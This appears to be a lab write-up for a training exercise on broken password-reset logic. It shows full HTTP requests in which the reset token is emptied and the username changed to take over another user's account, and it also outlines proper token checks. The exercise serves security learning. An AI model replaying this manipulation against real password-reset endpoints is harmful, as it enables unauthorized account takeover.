






# Password reset broken logic

## Lab Description :


## Overview :
http://vulnerable-website.com/reset-password?user=victim-user
In this example, an attacker could change the user parameter to refer to any username they have identified. They would then be taken straight to a page where they can potentially set a new password for this arbitrary user.

A better implementation of this process is to generate a high-entropy, hard-to-guess token and create the reset URL based on that. In the best case scenario, this URL should provide no hints about which user's password is being reset.

``http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895``

Still there are certain security checks : 

 . System should check whether this token exists on the back-end.

 . Which user's password it is supposed to reset.

 . This token should expire after a short period of time and be destroyed immediately after the password has been reset

## Solution :
We are presented with a blog page where on top we have a Email client functionality & also a link to My Account page.



In the login page, there is the Forgot password functionality.



Clicking on forgot password takes us to this page where we have to enter our email to reset our password.



The request sent is as follows,
```html
POST /forgot-password HTTP/2
Host: 0a2900e804bc673e818785ab005d0063.web-security-academy.net
Cookie: session=6QZr51k2HpRZMOx5cGZqIu6Oz80dgJxs
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a2900e804bc673e818785ab005d0063.web-security-academy.net
Referer: https://0a2900e804bc673e818785ab005d0063.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener
```
We can see that there is a username=wiener parameter.

After this the webpage tells us to check our mail for password reset link



When we click Email client , we can see the password reset mail. On clicking the link , the following request is sent which contains a ``
```html
POST /forgot-password?temp-forgot-password-token=1cnNliHmwl5CL3afZdO3UhVtxAZ9VFTX HTTP/2
Host: 0a2900e804bc673e818785ab005d0063.web-security-academy.net
Cookie: session=6QZr51k2HpRZMOx5cGZqIu6Oz80dgJxs
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: https://0a2900e804bc673e818785ab005d0063.web-security-academy.net
Referer: https://0a2900e804bc673e818785ab005d0063.web-security-academy.net/forgot-password?temp-forgot-password-token=1cnNliHmwl5CL3afZdO3UhVtxAZ9VFTX
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=1cnNliHmwl5CL3afZdO3UhVtxAZ9VFTX&username=wiener&new-password-1=newpassword&new-password-2=newpassword
```
In the cookie we can see that it contains a token, username, password-1(type password) and password-2(retype password)

By this we have sucessfully changed wiener's password.

Resetting carlos's password -

What happens if we remove the token value from both the URL and the parameter & also change the username from wiener to carlos & forward the request?
```html
POST /forgot-password?temp-forgot-password-token= HTTP/2
Host: 0a4600a504e6ef4c83015a0400490051.web-security-academy.net
Cookie: session=ZE2uXQUBvlVaC1fMI0NExhWaUlzj9Vne
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: https://0a4600a504e6ef4c83015a0400490051.web-security-academy.net
Referer: https://0a4600a504e6ef4c83015a0400490051.web-security-academy.net/forgot-password?temp-forgot-password-token=foIaJd53bYvQKYOM7O642P81W3wySvas
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=&username=carlos&new-password-1=newpassword&new-password-2=newpassword
```
When we forward this request, we dont get any error etc, which is a sign that something worked in the backend. Well we might have sucessfully changed the password of carlos.

Lets try logging in as carlos with the password which we used for reset - newpassword




#### Visit The Next Page For The Next Level :)
